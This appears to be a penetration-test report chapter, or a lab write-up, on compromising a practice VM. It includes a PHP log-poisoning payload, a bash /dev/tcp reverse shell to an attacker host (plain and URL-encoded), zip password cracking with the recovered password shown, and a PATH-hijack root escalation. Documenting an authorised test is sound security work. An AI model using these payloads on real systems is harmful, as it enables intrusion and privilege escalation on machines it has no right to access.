\chapter{Exploitation}

\section{Overview}

The \textbf{Exploitation} phase of a penetration test focuses on attempting to establish access to a system or resource by bypassing existing security restrictions. 
\\

The primary objectives are to identify viable entry points into the target environment and to determine whether identified vulnerabilities can be successfully exploited to gain access to high-value assets.

\section{Automatic Exploitation}

\subsection{Metasploit}

To search for available exploits corresponding to the identified vulnerabilities, the \texttt{Metasploit} framework was used. 
\\

Since numerous CVEs had been identified during the previous phases, a \texttt{Python} script was developed to automate the exploit search process. 
\\

The script is available as an attachment.
\\

All identified CVEs were stored in a \texttt{.txt} file, with one CVE listed per line. The Python script was then executed with \textbf{administrator privileges} to perform the automated search:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.75\linewidth]{GlobalAssets/metasploitsearch.png}
    \caption{Metasploit Search Partial Output}
    \label{metasploit}
\end{figure}

Despite the large number of identified CVEs, \texttt{Metasploit} did not identify any known exploit applicable to the vulnerabilities listed in the input file.

\section{Manual Exploitation}

\subsection{Reverse Shell through Log Poisoning}

As shown in the Vulnerability Analysis section, an RCE can be performed against the target system through a log poisoning attack against \texttt{randylogs.php} and \texttt{/var/log/auth.log}.

\subsubsection{Allowing randylogs.php to accept a new parameter}

Since it's possible to poison the log arbitrarily, a more complex command can be injected through the \texttt{<?php system(\$\_GET['cmd']); ?>} payload, allowing \texttt{randylogs.php} to accept an additional \texttt{cmd} parameter:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.75\linewidth]{GlobalAssets/cmdinjection1.png}
    \caption{PHP parameter injection}
    \label{phpinjection1}
\end{figure}

The idea is to inject a reverse shell payload through the \texttt{cmd} parameter. When the the poisoned log file is included by \texttt{randylogs.php}, the injected PHP code executes the supplied command.

\subsubsection{Crafting a Reverse Shell payload}

The following Bash command can then be used to establish a reverse shell to the attacking machine at IP address \texttt{10.0.2.5} on port \texttt{9000}:
\begin{verbatim}
/bin/bash -c 'bash -i >& /dev/tcp/10.0.2.5/9000 0>&1'
\end{verbatim}


This command operates as follows:
\begin{itemize}
\item \texttt{/bin/bash -c '...'} starts Bash and instructs it to execute the command contained within the quoted string.
\item \texttt{bash -i} starts an interactive Bash shell. The \texttt{-i} option causes Bash to operate in interactive mode, allowing commands to be received and executed through the established connection.
\item \texttt{>\& /dev/tcp/10.0.2.5/9000} redirects the shell's standard output and standard error to a TCP connection established by Bash to the attacking machine at \texttt{10.0.2.5} on port \texttt{9000}.
\item \texttt{0>\&1} redirects standard input (file descriptor 0) to the same destination as standard output (file descriptor 1). Consequently, input received through the TCP connection is supplied to the interactive shell.
\end{itemize}

In order to issue this command, it has to be URL-encoded. The resulting stirng is

\texttt{/bin/bash\%20-c\%20\%27bash\%20-i\%20\%3E\%26\%20/dev/tcp/10.0.2.5/9000\%200\%3E\%261\%27}.
\\

This string will be fed to the \texttt{cmd} parameter, and will be executed by \texttt{randylogs.php}.

\subsubsection{Executing the attack}

Before issuing a reverse shell payload, the attacking machine must listen for the incoming connection on port \texttt{9000}. This can be achieved using the \texttt{netcat} utility through the \texttt{nc -nlvp 9000} command:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.50\linewidth]{GlobalAssets/netcat1.png}
    \caption{Netcat listening on port 9000}
    \label{netcat1}
\end{figure}

Once the listener is active, the payload can be issued. In this case, the request will be: 

\texttt{http://10.0.2.7/blog-post/archives/randylogs.php
?file=/var/log/auth.log\&}

\texttt{/bin/bash\%20-c\%20\%27bash\%20-i\%20\%3E\%26\%20/dev/tcp/10.0.2.5/9000\%200\%3E\%261\%27}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.75\linewidth]{GlobalAssets/attackfirefox.png}
    \caption{Issuing the request through Firefox}
    \label{firefoxrequest}
\end{figure}

Wrapping it up, the \texttt{file} parameter specifies the poisoned \texttt{/var/log/auth.log} file, while the \texttt{cmd} parameter contains the URL-encoded reverse-shell command. 
\\

When \texttt{randylogs.php} processes the file, the injected PHP code executes the reverse shell payload supplied through the \texttt{cmd} parameter, causing the target system to initiate a TCP connection to \texttt{10.0.2.5:9000}:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.75\linewidth]{GlobalAssets/reverseshellsuccess.png}
    \caption{Reverse Shell Success}
    \label{reverseshellsuccess}
\end{figure}

\clearpage

\chapter{Post Exploitation}
\section{Overview}
The Post Exploitation phase assesses the potential impact of a successful compromise after initial access has been obtained. 
\\

During this phase, testing focuses on determining the extent to which an attacker could maintain access, access sensitive information, escalate privileges, move between systems, or otherwise expand their level of control within the assessed environment.

\section{Manual Post Exploitation}

\subsection{Sensitive Data Extrapolation}
\subsubsection{Exploring www-data's userspace}

Thanks to the reverse shell, it is now possible to explore the target machine. Apart from the expected files, two findings are particularly noteworthy.
\\

By reading the \texttt{/etc/passwd} file, another user account is discovered on the system. This user is identified by the username \texttt{randy}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.75\linewidth]{GlobalAssets/userrandy.png}
    \caption{\texttt{randy} user entry}
    \label{userrandy}
\end{figure}

In addition, an interesting \texttt{user\_backups.zip} file was found in the \texttt{/var/backups/} directory. However, the archive cannot be extracted because it is \textbf{password-protected}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.75\linewidth]{GlobalAssets/unzipfail.png}
    \caption{\texttt{user\_backups.zip} extraction failure}
    \label{fig:placeholder}
\end{figure}

Since the \texttt{user\_backups.zip} file may contain login credentials or other sensitive information, attempting to crack its password could provide valuable information for further exploitation.

\subsubsection{Cracking \texttt{user\_backup.zip} password}

The file can be transferred by starting a Python web server from the \texttt{/var/backups/} directory on the target machine and requesting the file from this web server using \texttt{wget} on the attacking machine.

To start the web server, the following command can be used:

\begin{verbatim}
python3 -m http.server 9988
\end{verbatim}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.75\linewidth]{GlobalAssets/webserverpython.png}
    \caption{Starting a web server on the target machine}
    \label{pythonwebserver}
\end{figure}

The file can now be downloaded to the attacking machine using the following command:

\begin{verbatim}
wget http://10.0.2.7:9988/user_backup.zip
\end{verbatim}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.75\linewidth]{GlobalAssets/userbackupwget.png}
    \caption{Downloading \texttt{user\_backup.zip}}
    \label{userbackupwget}
\end{figure}

Once the file has been downloaded, its password can be attacked using \texttt{John the Ripper}.

First, the \texttt{zip2john} command is used to extract the password-verification data from the password-protected ZIP archive and convert it into a format that can be processed by \texttt{John the Ripper}. Then, the \texttt{john} command is used to attempt to crack the password:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.75\linewidth]{GlobalAssets/randybaby.png}
    \caption{\texttt{user\_backup.txt} Password Cracking}
    \label{passcrack}
\end{figure}

The cracking attempt successfully recovered the password \textbf{\texttt{!randybaby}}. This password allows the contents of the archive to be extracted.

The files found inside the \texttt{user\_backup.zip} archive are:

\begin{itemize}
    \item \textbf{\texttt{id\_rsa}}: the user's private key;
    \item \textbf{\texttt{id\_rsa.pub}}: the user's public key;
    \item \textbf{\texttt{my\_password.txt}}: a user's password;
    \item \textbf{\texttt{easysysinfo.c}}: a C program that performs \texttt{setuid(0)} and \texttt{setgid(0)}.
\end{itemize}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.50\linewidth]{GlobalAssets/zipcracked.png}
    \caption{Content of \texttt{user\_backup.zip}}
    \label{passcracked}
\end{figure}

\subsection{Searching for Privilege Escalation Vectors}

\subsubsection{Exploring randy's userspace}

Among the files contained in the \texttt{user\_backup.zip} archive, the most interesting one is \texttt{my\_password.txt}, since the password contained in this file can be used to log in to the \texttt{randy} user account:

\begin{figure}[H]
\centering

\includegraphics[width=0.75\linewidth]{GlobalAssets/randylogin.png}
\caption{Logging into the \texttt{randy} account}
\label{randylogin}
\end{figure}

Once inside the \texttt{randy} account, it is possible to explore the directories and programs to which the user has access.
\\

The most interesting finding is the \texttt{easysysinfo} file located inside the \texttt{tools} directory. This file has \texttt{setuid} permissions, and its behavior is consistent with the \texttt{easysysinfo.c} source file that was previously found inside the \texttt{user\_backup.zip} archive:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.75\linewidth]{GlobalAssets/exploring.png}
    \caption{Exploring \texttt{randy}'s directories}
    \label{randyexplore}
\end{figure}

\subsubsection{Analyzing the easysysinfo source code}

Analyzing the source code of \texttt{easysysinfo}, a security weakness can be identified: the program uses the \texttt{system()} function, which can be insecure when commands are executed using an environment-dependent search path. In particular, \textbf{untrusted values in environment variables} may be used to alter the way external executables are resolved, potentially compromising system integrity.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.40\linewidth]{GlobalAssets/easysysinfo.png}
    \caption{\texttt{easysysinfo.c} source file}
    \label{easysysinfo.c}
\end{figure}

This weakness is identified as \textbf{CWE-426: Untrusted Search Path}, in which a critical resource (in this case, the \texttt{cat} executable) is searched for through an untrusted value (in this case, the \texttt{PATH} environment variable).

\subsection{Gaining Root Privileges}
\subsubsection{Injecting a Privilege Escalation Executable}

This weakness, combined with the \texttt{setuid} permissions of the \texttt{easysysinfo} program, can be exploited to gain \textbf{root access}.
\\

A fake \texttt{cat} executable that spawns a root shell can be easily created:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.40\linewidth]{GlobalAssets/fakecat.png}
    \caption{Fake \texttt{cat} program}
    \label{fakecat}
\end{figure}

The C source file can then be compiled, and the resulting executable moved to the \texttt{/tmp} directory. 
\\

Next, the \texttt{PATH} environment variable can be modified by prepending \texttt{/tmp}, ensuring that the malicious \texttt{cat} executable located in \texttt{/tmp} is resolved before the legitimate \texttt{cat} executable.
\\

Finally, executing \texttt{easysysinfo} causes the program to invoke the \texttt{cat} executable. Since the modified \texttt{PATH} prioritizes \texttt{/tmp}, the malicious executable is executed instead of the legitimate one. 
\\

As \texttt{easysysinfo} performs \texttt{setuid(0)} and \texttt{setgid(0)}, this successfully results in the spawning of a \textbf{root shell}:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.75\linewidth]{GlobalAssets/rooted.png}
    \caption{Successful Privilege Escalation}
    \label{rooted}
\end{figure}